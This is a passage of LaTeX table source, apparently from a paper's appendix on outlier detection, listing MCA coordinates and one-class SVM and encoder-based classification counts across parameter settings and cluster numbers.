	 0.015476 & -0.003412 & -0.108106 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.189662 &  0.053016 & -0.101119 \\
	 0.303309 & -0.019059 &  0.005987 \\
	 0.103734 & -0.015432 &  0.046046 \\
	 0.131203 & -0.015473 &  0.041941 \\
	-0.058290 &  0.114228 & -0.165737 \\
	 0.275592 & -0.014281 & -0.001820 \\
	 0.287204 & -0.019984 &  0.007545 \\
	 0.287204 & -0.019984 &  0.007545 \\
	-1.369476 &  0.360832 & -0.593341 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	-0.114025 &  0.155558 & -0.253616 \\
	 0.287204 & -0.019984 &  0.007545 \\
	-0.258942 &  0.178374 & -0.073033 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	-1.300167 & -2.466700 & -0.370686 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	-1.097736 &  0.132434 &  1.278262 \\
	-0.339037 &  0.075674 &  0.029995 \\
	-0.166117 &  0.023475 &  0.012137 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	-0.597109 &  0.033244 &  0.133987 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	-0.597109 &  0.033244 &  0.133987 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.022125 &  0.052553 & -0.116180 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303309 & -0.019059 &  0.005987 \\
	 0.015476 & -0.003412 & -0.108106 \\
	 0.301241 & -0.017681 &  0.006321 \\
	-0.080700 &  0.219873 & -0.344296 \\
	-0.052792 &  0.005908 &  0.025548 \\
	-0.052792 &  0.005908 &  0.025548 \\
	 0.124951 & -0.014448 &  0.042986 \\
	-0.210704 &  0.576562 & -1.085697 \\
	-0.086686 & -0.014227 &  0.074501 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.287204 & -0.019984 &  0.007545 \\
	-1.264270 &  0.514452 & -0.681936 \\
	-0.054170 &  0.117843 & -0.170403 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.287204 & -0.019984 &  0.007545 \\
	-0.009257 &  0.099378 & -0.175992 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	-0.258942 &  0.178374 & -0.073033 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	-1.097736 &  0.132434 &  1.278262 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.022125 &  0.052553 & -0.116180 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.015476 & -0.003412 & -0.108106 \\
	 0.103734 & -0.015432 &  0.046046 \\
	-1.362217 &  0.507347 & -0.585543 \\
	 0.287204 & -0.019984 &  0.007545 \\
	-0.054170 &  0.117843 & -0.170403 \\
	-0.084455 &  0.143001 & -0.235539 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.287204 & -0.019984 &  0.007545 \\
	 0.287204 & -0.019984 &  0.007545 \\
	 0.287204 & -0.019984 &  0.007545 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.287204 & -0.019984 &  0.007545 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.287204 & -0.019984 &  0.007545 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.287204 & -0.019984 &  0.007545 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	-1.312293 & -2.514440 & -0.378790 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	-0.258942 &  0.178374 & -0.073033 \\
	 0.303286 & -0.019973 &  0.006682 \\
	-1.097736 &  0.132434 &  1.278262 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	-0.760363 &  0.044270 &  0.415179 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	-0.674937 &  0.326724 & -0.323714 \\
	-0.389508 &  0.094083 &  0.055093 \\
	-0.618902 &  0.034549 &  0.175243 \\
	-0.806960 & -0.028002 &  0.316956 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.206638 & -0.003644 &  0.068008 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	-0.597109 &  0.033244 &  0.133987 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.022125 &  0.052553 & -0.116180 \\
	 0.303286 & -0.019973 &  0.006682 \\
	-0.597109 &  0.033244 &  0.133987 \\
	 0.015476 & -0.003412 & -0.108106 \\
	 0.303309 & -0.019059 &  0.005987 \\
	 0.303286 & -0.019973 &  0.006682 \\
	 0.303286 & -0.019973 &  0.006682 \\
	-0.206594 &  0.024989 &  0.262793 \\
	 0.303309 & -0.019059 &  0.005987 \\
	-0.206594 &  0.024989 &  0.262793 \\
	 0.081225 & -0.015643 &  0.046059 \\
	-0.052792 &  0.005908 &  0.025548 \\
	 0.131203 & -0.015473 &  0.041941 \\
	 0.256092 & -0.025394 &  0.004780 \\
	 0.256092 & -0.025394 &  0.004780 \\
	\bottomrule
\end{tabular}
\end{table}

\begin{table}
	\centering
	\caption{OCSVM classification on MCA data}
	\label{id:tab:OCSVMonMCA}
	\begin{tabular}{lrrrrrl}
		\toprule
		{} &     nu &  Positive &  Negative &  False positive &  False negative & K-fold \\
		\midrule
		0  &  0.025 &       202 &         2 &              11 &              16 &    Yes \\
		1  &  0.050 &       214 &         3 &              10 &               4 &    Yes \\
		2  &  0.075 &       198 &         3 &              10 &              20 &    Yes \\
		3  &  0.100 &       209 &         3 &              10 &               9 &    Yes \\
		4  &  0.125 &       206 &         3 &              10 &              12 &    Yes \\
		5  &  0.150 &       205 &         3 &              10 &              13 &    Yes \\
		6  &  0.175 &       205 &         3 &              10 &              13 &    Yes \\
		7  &  0.200 &       201 &         4 &               9 &              17 &    Yes \\
		8  &  0.225 &       201 &         4 &               9 &              17 &    Yes \\
		9  &  0.250 &       201 &         5 &               8 &              17 &    Yes \\
		10 &  0.275 &       199 &         5 &               8 &              19 &    Yes \\
		11 &  0.300 &       197 &         5 &               8 &              21 &    Yes \\
		12 &  0.325 &       195 &         5 &               8 &              23 &    Yes \\
		13 &  0.350 &       183 &         6 &               7 &              35 &    Yes \\
		14 &  0.375 &       144 &         7 &               6 &              74 &    Yes \\
		15 &  0.400 &       173 &         6 &               7 &              45 &    Yes \\
		16 &  0.425 &       193 &         6 &               7 &              25 &    Yes \\
		17 &  0.450 &       191 &         7 &               6 &              27 &    Yes \\
		18 &  0.475 &       189 &         7 &               6 &              29 &    Yes \\
		19 &  0.500 &       189 &         7 &               6 &              29 &    Yes \\
		20 &  0.525 &       176 &         8 &               5 &              42 &    Yes \\
		21 &  0.550 &       157 &        11 &               2 &              61 &    Yes \\
		22 &  0.575 &       112 &        11 &               2 &             106 &    Yes \\
		23 &  0.600 &       112 &        11 &               2 &             106 &    Yes \\
		24 &  0.625 &       150 &        10 &               3 &              68 &    Yes \\
		25 &  0.650 &       161 &        10 &               3 &              57 &    Yes \\
		26 &  0.675 &       161 &        10 &               3 &              57 &    Yes \\
		27 &  0.700 &       172 &        10 &               3 &              46 &    Yes \\
		28 &  0.725 &       180 &        10 &               3 &              38 &    Yes \\
		29 &  0.750 &       177 &        10 &               3 &              41 &    Yes \\
		30 &  0.775 &       177 &        10 &               3 &              41 &    Yes \\
		31 &  0.800 &       177 &        10 &               3 &              41 &    Yes \\
		32 &  0.825 &       177 &        10 &               3 &              41 &    Yes \\
		33 &  0.850 &        77 &        13 &               0 &             141 &    Yes \\
		34 &  0.875 &        29 &        13 &               0 &             189 &    Yes \\
		35 &  0.900 &        10 &        13 &               0 &             208 &    Yes \\
		36 &  0.925 &        10 &        13 &               0 &             208 &    Yes \\
		37 &  0.950 &        10 &        13 &               0 &             208 &    Yes \\
		38 &  0.975 &         7 &        13 &               0 &             211 &    Yes \\
		39 &  1.000 &         0 &        13 &               0 &             218 &    Yes \\
		0  &  0.025 &       215 &         2 &              11 &               3 &     No \\
		1  &  0.050 &       214 &         2 &              11 &               4 &     No \\
		2  &  0.075 &       210 &         3 &              10 &               8 &     No \\
		3  &  0.100 &       209 &         3 &              10 &               9 &     No \\
		4  &  0.125 &       206 &         3 &              10 &              12 &     No \\
		5  &  0.150 &       205 &         3 &              10 &              13 &     No \\
		6  &  0.175 &       205 &         3 &              10 &              13 &     No \\
		7  &  0.200 &       201 &         3 &              10 &              17 &     No \\
		8  &  0.225 &       201 &         5 &               8 &              17 &     No \\
		9  &  0.250 &       201 &         5 &               8 &              17 &     No \\
		10 &  0.275 &       197 &         5 &               8 &              21 &     No \\
		11 &  0.300 &       195 &         5 &               8 &              23 &     No \\
		12 &  0.325 &       195 &         6 &               7 &              23 &     No \\
		13 &  0.350 &       193 &         6 &               7 &              25 &     No \\
		14 &  0.375 &       193 &         6 &               7 &              25 &     No \\
		15 &  0.400 &       191 &         6 &               7 &              27 &     No \\
		16 &  0.425 &       190 &         7 &               6 &              28 &     No \\
		17 &  0.450 &       188 &         7 &               6 &              30 &     No \\
		18 &  0.475 &       187 &         7 &               6 &              31 &     No \\
		19 &  0.500 &       187 &        10 &               3 &              31 &     No \\
		20 &  0.525 &       186 &        10 &               3 &              32 &     No \\
		21 &  0.550 &       185 &        10 &               3 &              33 &     No \\
		22 &  0.575 &       185 &        10 &               3 &              33 &     No \\
		23 &  0.600 &       185 &        10 &               3 &              33 &     No \\
		24 &  0.625 &       185 &        10 &               3 &              33 &     No \\
		25 &  0.650 &       181 &        10 &               3 &              37 &     No \\
		26 &  0.675 &       177 &        10 &               3 &              41 &     No \\
		27 &  0.700 &       177 &        10 &               3 &              41 &     No \\
		28 &  0.725 &       177 &        10 &               3 &              41 &     No \\
		29 &  0.750 &       177 &        10 &               3 &              41 &     No \\
		30 &  0.775 &       177 &        10 &               3 &              41 &     No \\
		31 &  0.800 &       177 &        10 &               3 &              41 &     No \\
		32 &  0.825 &       177 &        10 &               3 &              41 &     No \\
		33 &  0.850 &        30 &        13 &               0 &             188 &     No \\
		34 &  0.875 &        27 &        13 &               0 &             191 &     No \\
		35 &  0.900 &         8 &        13 &               0 &             210 &     No \\
		36 &  0.925 &         8 &        13 &               0 &             210 &     No \\
		37 &  0.950 &         8 &        13 &               0 &             210 &     No \\
		38 &  0.975 &         7 &        13 &               0 &             211 &     No \\
		39 &  1.000 &         0 &        13 &               0 &             218 &     No \\
		\bottomrule
	\end{tabular}
\end{table} 

\begin{table}
	\centering
	\caption{Classification with new encoder trained on inlier data.}
	\label{id:tab:SVMencWLab}
	\begin{tabular}{lrrrrrr}
		\toprule
		{} &  index &  Positive &  Negative &  False positive &  False negative &  clusters \\
		\midrule
		0   &     40 &       214 &         3 &              10 &               4 &         1 \\
		1   &     41 &       212 &         7 &               6 &               6 &         1 \\
		2   &     42 &       203 &         7 &               6 &              15 &         1 \\
		3   &     43 &       200 &         8 &               5 &              18 &         1 \\
		4   &     44 &       197 &         8 &               5 &              21 &         1 \\
		5   &     45 &       191 &        10 &               3 &              27 &         1 \\
		6   &     46 &       171 &        10 &               3 &              47 &         1 \\
		7   &     47 &        76 &        13 &               0 &             142 &         1 \\
		8   &     48 &        67 &        13 &               0 &             151 &         1 \\
		9   &     49 &        52 &        13 &               0 &             166 &         1 \\
		10  &     50 &        50 &        13 &               0 &             168 &         1 \\
		11  &     51 &        50 &        13 &               0 &             168 &         1 \\
		12  &     52 &        39 &        13 &               0 &             179 &         1 \\
		13  &     53 &        51 &        13 &               0 &             167 &         1 \\
		14  &     54 &        46 &        13 &               0 &             172 &         1 \\
		15  &     55 &        36 &        13 &               0 &             182 &         1 \\
		16  &     56 &        36 &        13 &               0 &             182 &         1 \\
		17  &     57 &        35 &        13 &               0 &             183 &         1 \\
		18  &     58 &        35 &        13 &               0 &             183 &         1 \\
		19  &     59 &        35 &        13 &               0 &             183 &         1 \\
		20  &     60 &        35 &        13 &               0 &             183 &         1 \\
		21  &     61 &        35 &        13 &               0 &             183 &         1 \\
		22  &     62 &        35 &        13 &               0 &             183 &         1 \\
		23  &     63 &        34 &        13 &               0 &             184 &         1 \\
		24  &     64 &        33 &        13 &               0 &             185 &         1 \\
		25  &     65 &        33 &        13 &               0 &             185 &         1 \\
		26  &     66 &        33 &        13 &               0 &             185 &         1 \\
		27  &     67 &        33 &        13 &               0 &             185 &         1 \\
		28  &     68 &        33 &        13 &               0 &             185 &         1 \\
		29  &     69 &        58 &        13 &               0 &             160 &         1 \\
		30  &     70 &        43 &        13 &               0 &             175 &         1 \\
		31  &     71 &        65 &        13 &               0 &             153 &         1 \\
		32  &     72 &        65 &        13 &               0 &             153 &         1 \\
		33  &     73 &        64 &        13 &               0 &             154 &         1 \\
		34  &     74 &        64 &        13 &               0 &             154 &         1 \\
		35  &     75 &        42 &        13 &               0 &             176 &         1 \\
		36  &     76 &        29 &        13 &               0 &             189 &         1 \\
		37  &     77 &        28 &        13 &               0 &             190 &         1 \\
		38  &     78 &         9 &        13 &               0 &             209 &         1 \\
		39  &     79 &         0 &        13 &               0 &             218 &         1 \\
		40  &    120 &       214 &         3 &              10 &               4 &         2 \\
		41  &    121 &       209 &         4 &               9 &               9 &         2 \\
		42  &    122 &       206 &         7 &               6 &              12 &         2 \\
		43  &    123 &       199 &         8 &               5 &              19 &         2 \\
		44  &    124 &       195 &         8 &               5 &              23 &         2 \\
		45  &    125 &       190 &         9 &               4 &              28 &         2 \\
		46  &    126 &       184 &        10 &               3 &              34 &         2 \\
		47  &    127 &       167 &        10 &               3 &              51 &         2 \\
		48  &    128 &       169 &        10 &               3 &              49 &         2 \\
		49  &    129 &       148 &        10 &               3 &              70 &         2 \\
		50  &    130 &       147 &        10 &               3 &              71 &         2 \\
		51  &    131 &       147 &        10 &               3 &              71 &         2 \\
		52  &    132 &       145 &        10 &               3 &              73 &         2 \\
		53  &    133 &       144 &        10 &               3 &              74 &         2 \\
		54  &    134 &       144 &        10 &               3 &              74 &         2 \\
		55  &    135 &       175 &        10 &               3 &              43 &         2 \\
		56  &    136 &       175 &        10 &               3 &              43 &         2 \\
		57  &    137 &       175 &        10 &               3 &              43 &         2 \\
		58  &    138 &       175 &        10 &               3 &              43 &         2 \\
		59  &    139 &       161 &        10 &               3 &              57 &         2 \\
		60  &    140 &       174 &        10 &               3 &              44 &         2 \\
		61  &    141 &       152 &        10 &               3 &              66 &         2 \\
		62  &    142 &       172 &        10 &               3 &              46 &         2 \\
		63  &    143 &       171 &        10 &               3 &              47 &         2 \\
		64  &    144 &       136 &        12 &               1 &              82 &         2 \\
		65  &    145 &       171 &        10 &               3 &              47 &         2 \\
		66  &    146 &       171 &        10 &               3 &              47 &         2 \\
		67  &    147 &       171 &        10 &               3 &              47 &         2 \\
		68  &    148 &       170 &        10 &               3 &              48 &         2 \\
		69  &    149 &       170 &        10 &               3 &              48 &         2 \\
		70  &    150 &       170 &        10 &               3 &              48 &         2 \\
		71  &    151 &       170 &        10 &               3 &              48 &         2 \\
		72  &    152 &       169 &        10 &               3 &              49 &         2 \\
		73  &    153 &       169 &        10 &               3 &              49 &         2 \\
		74  &    154 &       104 &        13 &               0 &             114 &         2 \\
		75  &    155 &        46 &        13 &               0 &             172 &         2 \\
		76  &    156 &        24 &        13 &               0 &             194 &         2 \\
		77  &    157 &        24 &        13 &               0 &             194 &         2 \\
		78  &    158 &         8 &        13 &               0 &             210 &         2 \\
		79  &    159 &         0 &        13 &               0 &             218 &         2 \\
		80  &    200 &       213 &         2 &              11 &               5 &         3 \\
		81  &    201 &       209 &         3 &              10 &               9 &         3 \\
		82  &    202 &       204 &         7 &               6 &              14 &         3 \\
		83  &    203 &       201 &         8 &               5 &              17 &         3 \\
		84  &    204 &       194 &         8 &               5 &              24 &         3 \\
		85  &    205 &       190 &         8 &               5 &              28 &         3 \\
		86  &    206 &       185 &         8 &               5 &              33 &         3 \\
		87  &    207 &       178 &        10 &               3 &              40 &         3 \\
		88  &    208 &       156 &        10 &               3 &              62 &         3 \\
		89  &    209 &        90 &        13 &               0 &             128 &         3 \\
		90  &    210 &        89 &        13 &               0 &             129 &         3 \\
		91  &    211 &        98 &        13 &               0 &             120 &         3 \\
		92  &    212 &        99 &        13 &               0 &             119 &         3 \\
		93  &    213 &        99 &        13 &               0 &             119 &         3 \\
		94  &    214 &       117 &        13 &               0 &             101 &         3 \\
		95  &    215 &       117 &        13 &               0 &             101 &         3 \\
		96  &    216 &       126 &        13 &               0 &              92 &         3 \\
		97  &    217 &        85 &        13 &               0 &             133 &         3 \\
		98  &    218 &        85 &        13 &               0 &             133 &         3 \\
		99  &    219 &       103 &        12 &               1 &             115 &         3 \\
		100 &    220 &        53 &        13 &               0 &             165 &         3 \\
		101 &    221 &        53 &        13 &               0 &             165 &         3 \\
		102 &    222 &        38 &        13 &               0 &             180 &         3 \\
		103 &    223 &        28 &        13 &               0 &             190 &         3 \\
		104 &    224 &        28 &        13 &               0 &             190 &         3 \\
		105 &    225 &        28 &        13 &               0 &             190 &         3 \\
		106 &    226 &        27 &        13 &               0 &             191 &         3 \\
		107 &    227 &        27 &        13 &               0 &             191 &         3 \\
		108 &    228 &        27 &        13 &               0 &             191 &         3 \\
		109 &    229 &        26 &        13 &               0 &             192 &         3 \\
		110 &    230 &        26 &        13 &               0 &             192 &         3 \\
		111 &    231 &        24 &        13 &               0 &             194 &         3 \\
		112 &    232 &        21 &        13 &               0 &             197 &         3 \\
		113 &    233 &        21 &        13 &               0 &             197 &         3 \\
		114 &    234 &        20 &        13 &               0 &             198 &         3 \\
		115 &    235 &        10 &        13 &               0 &             208 &         3 \\
		116 &    236 &        18 &        13 &               0 &             200 &         3 \\
		117 &    237 &        11 &        13 &               0 &             207 &         3 \\
		118 &    238 &        11 &        13 &               0 &             207 &         3 \\
		119 &    239 &         0 &        13 &               0 &             218 &         3 \\
		120 &    280 &       214 &         2 &              11 &               4 &         4 \\
		121 &    281 &       208 &         4 &               9 &              10 &         4 \\
		122 &    282 &       201 &         5 &               8 &              17 &         4 \\
		123 &    283 &       199 &         5 &               8 &              19 &         4 \\
		124 &    284 &       193 &         8 &               5 &              25 &         4 \\
		125 &    285 &       188 &         8 &               5 &              30 &         4 \\
		126 &    286 &       171 &         8 &               5 &              47 &         4 \\
		127 &    287 &       167 &         8 &               5 &              51 &         4 \\
		128 &    288 &       167 &         8 &               5 &              51 &         4 \\
		129 &    289 &       171 &         9 &               4 &              47 &         4 \\
		130 &    290 &       128 &        10 &               3 &              90 &         4 \\
		131 &    291 &        91 &        10 &               3 &             127 &         4 \\
		132 &    292 &        16 &        13 &               0 &             202 &         4 \\
		133 &    293 &        16 &        13 &               0 &             202 &         4 \\
		134 &    294 &        16 &        13 &               0 &             202 &         4 \\
		135 &    295 &        16 &        13 &               0 &             202 &         4 \\
		136 &    296 &        16 &        13 &               0 &             202 &         4 \\
		137 &    297 &        16 &        13 &               0 &             202 &         4 \\
		138 &    298 &        15 &        13 &               0 &             203 &         4 \\
		139 &    299 &        15 &        13 &               0 &             203 &         4 \\
		140 &    300 &        15 &        13 &               0 &             203 &         4 \\
		141 &    301 &        15 &        13 &               0 &             203 &         4 \\
		142 &    302 &        27 &        13 &               0 &             191 &         4 \\
		143 &    303 &        33 &        13 &               0 &             185 &         4 \\
		144 &    304 &        12 &        13 &               0 &             206 &         4 \\
		145 &    305 &        50 &        12 &               1 &             168 &         4 \\
		146 &    306 &        12 &        13 &               0 &             206 &         4 \\
		147 &    307 &        12 &        13 &               0 &             206 &         4 \\
		148 &    308 &        12 &        13 &               0 &             206 &         4 \\
		149 &    309 &        12 &        13 &               0 &             206 &         4 \\
		150 &    310 &        12 &        13 &               0 &             206 &         4 \\
		151 &    311 &        12 &        13 &               0 &             206 &         4 \\
		152 &    312 &        12 &        13 &               0 &             206 &         4 \\
		153 &    313 &        12 &        13 &               0 &             206 &         4 \\
		154 &    314 &        11 &        13 &               0 &             207 &         4 \\
		155 &    315 &        11 &        13 &               0 &             207 &         4 \\
		156 &    316 &        11 &        13 &               0 &             207 &         4 \\
		157 &    317 &        11 &        13 &               0 &             207 &         4 \\
		158 &    318 &         6 &        13 &               0 &             212 &         4 \\
		159 &    319 &         0 &        13 &               0 &             218 &         4 \\
		\bottomrule
	\end{tabular}				
\end{table}	

\begin{table}
	\centering
	\caption{Classification with new encoder trained on all data.}
	\label{id:tab:SVMencWoLab}
	\begin{tabular}{lrrrrrr}
		\toprule
		{} &  index &  Positive &  Negative &  False positive &  False negative &  clusters \\
		\midrule
		0   &     40 &       213 &         1 &              12 &               5 &         1 \\
		1   &     41 &       209 &         3 &              10 &               9 &         1 \\
		2   &     42 &       200 &         3 &              10 &              18 &         1 \\
		3   &     43 &       197 &         4 &               9 &              21 &         1 \\
		4   &     44 &       185 &         8 &               5 &              33 &         1 \\
		5   &     45 &       148 &        10 &               3 &              70 &         1 \\
		6   &     46 &        49 &        13 &               0 &             169 &         1 \\
		7   &     47 &        47 &        13 &               0 &             171 &         1 \\
		8   &     48 &        52 &        13 &               0 &             166 &         1 \\
		9   &     49 &        55 &        13 &               0 &             163 &         1 \\
		10  &     50 &        42 &        13 &               0 &             176 &         1 \\
		11  &     51 &        50 &        13 &               0 &             168 &         1 \\
		12  &     52 &        52 &        13 &               0 &             166 &         1 \\
		13  &     53 &        39 &        13 &               0 &             179 &         1 \\
		14  &     54 &        39 &        13 &               0 &             179 &         1 \\
		15  &     55 &        46 &        13 &               0 &             172 &         1 \\
		16  &     56 &        37 &        13 &               0 &             181 &         1 \\
		17  &     57 &        36 &        13 &               0 &             182 &         1 \\
		18  &     58 &        36 &        13 &               0 &             182 &         1 \\
		19  &     59 &        35 &        13 &               0 &             183 &         1 \\
		20  &     60 &        35 &        13 &               0 &             183 &         1 \\
		21  &     61 &        35 &        13 &               0 &             183 &         1 \\
		22  &     62 &        35 &        13 &               0 &             183 &         1 \\
		23  &     63 &        35 &        13 &               0 &             183 &         1 \\
		24  &     64 &        35 &        13 &               0 &             183 &         1 \\
		25  &     65 &        35 &        13 &               0 &             183 &         1 \\
		26  &     66 &        34 &        13 &               0 &             184 &         1 \\
		27  &     67 &        33 &        13 &               0 &             185 &         1 \\
		28  &     68 &        33 &        13 &               0 &             185 &         1 \\
		29  &     69 &        33 &        13 &               0 &             185 &         1 \\
		30  &     70 &        33 &        13 &               0 &             185 &         1 \\
		31  &     71 &        33 &        13 &               0 &             185 &         1 \\
		32  &     72 &        33 &        13 &               0 &             185 &         1 \\
		33  &     73 &        33 &        13 &               0 &             185 &         1 \\
		34  &     74 &        32 &        13 &               0 &             186 &         1 \\
		35  &     75 &        11 &        13 &               0 &             207 &         1 \\
		36  &     76 &        11 &        13 &               0 &             207 &         1 \\
		37  &     77 &         9 &        13 &               0 &             209 &         1 \\
		38  &     78 &         8 &        13 &               0 &             210 &         1 \\
		39  &     79 &         0 &        13 &               0 &             218 &         1 \\
		40  &    120 &       214 &         2 &              11 &               4 &         2 \\
		41  &    121 &       210 &         5 &               8 &               8 &         2 \\
		42  &    122 &       200 &         5 &               8 &              18 &         2 \\
		43  &    123 &       200 &         6 &               7 &              18 &         2 \\
		44  &    124 &       197 &         8 &               5 &              21 &         2 \\
		45  &    125 &       191 &        10 &               3 &              27 &         2 \\
		46  &    126 &       189 &        10 &               3 &              29 &         2 \\
		47  &    127 &       165 &        10 &               3 &              53 &         2 \\
		48  &    128 &       185 &        10 &               3 &              33 &         2 \\
		49  &    129 &       172 &        10 &               3 &              46 &         2 \\
		50  &    130 &       157 &        10 &               3 &              61 &         2 \\
		51  &    131 &       136 &        10 &               3 &              82 &         2 \\
		52  &    132 &       109 &        11 &               2 &             109 &         2 \\
		53  &    133 &        91 &        11 &               2 &             127 &         2 \\
		54  &    134 &        85 &        11 &               2 &             133 &         2 \\
		55  &    135 &        84 &        11 &               2 &             134 &         2 \\
		56  &    136 &        73 &        11 &               2 &             145 &         2 \\
		57  &    137 &        73 &        11 &               2 &             145 &         2 \\
		58  &    138 &        72 &        11 &               2 &             146 &         2 \\
		59  &    139 &        72 &        11 &               2 &             146 &         2 \\
		60  &    140 &        72 &        11 &               2 &             146 &         2 \\
		61  &    141 &        72 &        11 &               2 &             146 &         2 \\
		62  &    142 &        72 &        11 &               2 &             146 &         2 \\
		63  &    143 &        72 &        11 &               2 &             146 &         2 \\
		64  &    144 &        62 &        11 &               2 &             156 &         2 \\
		65  &    145 &        61 &        11 &               2 &             157 &         2 \\
		66  &    146 &        61 &        11 &               2 &             157 &         2 \\
		67  &    147 &        61 &        11 &               2 &             157 &         2 \\
		68  &    148 &        61 &        11 &               2 &             157 &         2 \\
		69  &    149 &        61 &        11 &               2 &             157 &         2 \\
		70  &    150 &        61 &        11 &               2 &             157 &         2 \\
		71  &    151 &        60 &        11 &               2 &             158 &         2 \\
		72  &    152 &        60 &        11 &               2 &             158 &         2 \\
		73  &    153 &        41 &        13 &               0 &             177 &         2 \\
		74  &    154 &        41 &        13 &               0 &             177 &         2 \\
		75  &    155 &        29 &        13 &               0 &             189 &         2 \\
		76  &    156 &        29 &        13 &               0 &             189 &         2 \\
		77  &    157 &        29 &        13 &               0 &             189 &         2 \\
		78  &    158 &        11 &        13 &               0 &             207 &         2 \\
		79  &    159 &         0 &        13 &               0 &             218 &         2 \\
		80  &    200 &       213 &         2 &              11 &               5 &         3 \\
		81  &    201 &       209 &         3 &              10 &               9 &         3 \\
		82  &    202 &       204 &         5 &               8 &              14 &         3 \\
		83  &    203 &       199 &         5 &               8 &              19 &         3 \\
		84  &    204 &       191 &         5 &               8 &              27 &         3 \\
		85  &    205 &       186 &         7 &               6 &              32 &         3 \\
		86  &    206 &       183 &        10 &               3 &              35 &         3 \\
		87  &    207 &       176 &        10 &               3 &              42 &         3 \\
		88  &    208 &       167 &        10 &               3 &              51 &         3 \\
		89  &    209 &       160 &        10 &               3 &              58 &         3 \\
		90  &    210 &       160 &        10 &               3 &              58 &         3 \\
		91  &    211 &       158 &        10 &               3 &              60 &         3 \\
		92  &    212 &       156 &        10 &               3 &              62 &         3 \\
		93  &    213 &       156 &        10 &               3 &              62 &         3 \\
		94  &    214 &       156 &        10 &               3 &              62 &         3 \\
